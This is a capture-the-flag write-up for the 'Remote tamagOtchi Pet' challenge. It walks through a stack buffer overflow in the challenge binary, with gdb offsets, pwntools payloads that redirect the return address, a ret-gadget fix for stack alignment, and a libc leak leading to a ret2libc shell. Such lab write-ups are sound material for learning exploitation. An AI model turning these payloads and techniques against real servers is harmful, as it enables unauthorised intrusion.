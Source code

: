 # Remote tamagOtchi Pet

You might remember the Tamagotchi from the late 90's and early 2000's. Good news, we have improved the tamagotchi by putting everyone's favourite pet on the web!

The flag is located in the home directory on the server.

Connect with netcat to access your tamagotchi

$ nc motherload.td.org.uit.no 8009

# Writeup

Same as with mp3_player I started looking at this from gdb.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
***removed unessesary functions* 
0x0000000000401236  ignore_me
0x000000000040129b  timeout
0x00000000004012c9  ignore_me_timeout
0x00000000004012ef  banner
0x0000000000401342  animal
0x000000000040137d  print_actions
0x00000000004013bd  play
0x00000000004013e0  feed
0x0000000000401441  print_care_options
0x0000000000401481  care
0x0000000000401555  main
```

This has a gets when you read a book to it. So this is where I might inject something. So sending `3\n3\n` + payload of A's ending with `\n` I can figure out how to pollute the return instruction pointer (`rip`). 

So after a lot of number adjusting I found out that 57 starts writing over it.

```
(gdb) run  < <(python -c 'print("3\n3\n" + "A"*57 + "\n")')

* Removed unessesary data * 
>> 
Which book do you want to read?
>> You read AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA for you pet

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400041 in ?? ()
```

Found out that we could use up to 62 which gave this `rip`: `0x0000414141414141`. As there is no flag in the source I guess there is a flag.txt in the home directory and they want us to create assembly code to write to stack and change the `rip` to the start of it. This is exactly what [this](https://www.youtube.com/watch?v=1S0aBV-Waeo) video talks about which I watched for the mp3_player.

I also found out that I could use `feed` with 46 characters to get the same `rip`, then I need to change `3\n3\n` to `2\n`. But the book has bigger buffer so I'll be using that.

So here I tried a bunch by injecting some shellcode and changing the `rip` to that location in memory. Prolly a few hours. Until I figured out something I did not know......

```bash
$ pwn checksec tamagotchi
[*] '/remote_tamagotchi_pet/tamagotchi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX Enabled. ChatGPT explains this better than me:

> The NX flag, also known as the "No-eXecute" flag, is a security feature that is used to prevent the execution of code from certain memory areas. When this flag is set, it indicates that the memory page is non-executable, which means that code cannot be executed from that page. This is a common technique used to prevent certain types of malicious attacks, such as buffer overflow attacks, that try to execute code from data areas. In short, the NX flag helps to make computer systems more secure by preventing the execution of code from certain memory areas.

So I need a hint.

> You will need to find the libc version used by the server

Ok, so libc, I have no idea on how to exploit this so this is gonna require some Googling/ChatGPT'ing.

> **Question:** I'm doing a hacker CTF and I got a binary which I can buffer overflow to change the RSI. But it has NX enabled so I'm not able to write code in the buffer and execute. The hint says `You will need to find the libc version used by the server`. What kind of attack do you think he means and how can I learn more about it?

> **Answer:** The hint suggests that you may be able to use a technique called Return-oriented Programming (ROP) to bypass the non-executable stack (NX) protection and execute arbitrary code. ROP is a technique that involves chaining together short snippets of code called gadgets that already exist in the program's memory, rather than injecting new code into the stack. By carefully selecting and arranging these gadgets, you can achieve almost any desired behavior. 
>
> The key to using ROP is to find the libc version used by the server, as it contains the gadgets that you will need. Libc is a library that provides standard C functions to programs, such as functions for input/output operations, memory allocation, and string manipulation. Different versions of libc may have different gadgets available, so you need to find the version that matches the server's libc.
>
> To find the libc version used by the server, you can use a technique called "libc leaking". This involves exploiting a vulnerability in the binary to leak the address of a libc function or data structure in memory, which can then be used to determine the version of libc. Once you know the libc version, you can use a tool like ROPgadget to find gadgets in that version of libc that you can use for your ROP chain.

Time to learn about ROP. Found [this](https://www.youtube.com/watch?app=desktop&v=i5-cWI_HV8o) video by John Hammond which explained a lot and helped me continue. I'll be using the `Feed` function as that has less characters (40+6 for RIP). 

I had a few problems here, I tried to send a payload with a new address for it to go to e.g. the `banner` or `feed`. But I never managed to get it. I randomly got it by using +5 on the function address as seen below:

```python
from pwn import *

elf = ELF("./tamagotchi", checksec=False)
p = elf.process()

payload  = b"A"*40 # Offset
payload += p64(elf.symbols['banner']+5) # +5 here.
    
p.recvuntil(b">>").decode()
p.sendline(b"2")
p.recvuntil(b">>").decode()
p.sendline(payload)
p.interactive()
```

After a talk with Loevland from the Discord to help me understand this. And after a while we figured out why this worked and how to properly do this. I'll try to the best of my knowlede to explain this. Firstly the +5 works most likely due to something called Stack Alignment. Not quite sure how it works but it seems like by adding +5 on the address I skip that first (and second) instruction inside the banner the `endbr64` and go Straight to the `push %rbp`. So we skip one CPU instruction and it works. One thought we have is that the endbr64 is one instruction which requires an aligned stack.

```asm
00000000004012ef <banner>:
  4012ef:    f3 0f 1e fa              endbr64 
  4012f3:    55                       push   %rbp
  4012f4:    48 89 e5                 mov    %rsp,%rbp
  4012f7:    48 8d 3d 1a 0d 00 00     lea    0xd1a(%rip),%rdi        # 402018 <_IO_stdin_used+0x18>
```

Loevland also explained to me how to do this properly so it runs all the calls. What he then did was add a `ret` function found from `ROPgadget --binary tamagotchi`. On address `0x000000000040101a` this is.

So by adding the `ret` function to the payload before our actuall function it works aswell.

```python
payload  = b"A"*40 # Offset
payload += p64(0x000000000040101a)
payload += p64(elf.symbols['banner']) 
```

Now why is this? We no longer pollute the `Return Instruction Pointer` with our expected address but the next 8 bytes. Well, `ret` if I understand correctly works by popping the address of the stack and then going to that address. So when the `feed` function finished it automatically invokes `ret` which pops the address of itself off the stack. Now the address for the banner is in `rip`. And then `ret` jumps to the popped address, which is actually a rerun of itself. But now it pops the new `rip` from the stack and jumps there.

Somehow this re-align the stack to work properly or something. But it works flaweless.

Now I can continue the video show how to build a ROP chain which is pretty simple. So quickly I created [extract_addresses.py](extract_addresses.py), ran this and got an address. 

```
$ python3 extract_addresses.py REMOTE
Using remote
puts found at 0x7fdd01a59420
gets found at 0x7fdd01a58970
printf found at 0x7fdd01a36c90
```

So next I clone the repo [libc-database](https://github.com/niklasb/libc-database) which is a program to download, search and identify different libc versions. Used `./get ubuntu` as I guess this is using a Ubuntu image. I can later get all if I need but I'll test with Ubuntu as downloading all takes a while. It downloads all the so files so you can search them.

Next I do a find which returns the libc package I need. The reason I take all 3 is because it might have by luck multiple hits on e.g. puts but on the rest it is only 1. So we match that all 3 is at these addresses and bingo.

```
$ ./find puts 0x7fdd01a59420 gets 0x7fdd01a58970 printf 0x7fdd01a36c90
ubuntu-glibc (libc6_2.31-0ubuntu9.9_amd64)

$ cp db/libc6_2.31-0ubuntu9.9_amd64.so ../
```

Now I have libc6_2.31-0ubuntu9.9_amd64.so in my folder. I can use this in the ROP command thingy. So I write a shell_code script based mostly on the youtube video from John Hammond and it becomes [get_flag.py](get_flag.py)

Running it seems to work remotely but not locally.

```bash
$ python3 shell_code.py REMOTE
Using remote
puts found at 0x7fa2140bf420
UiTHack23{t4ma_G0tcha_5h3ll}
```

So I got something working. The jist of it is that it: 

1. Connects remotely sends a payload to get the address of `puts`.
2. Loads the libc library and offsets the address on it so it matches the remote
3. injects system call which loads `/bin/sh`
4. cat's the `flag.txt` in the home folder.
  
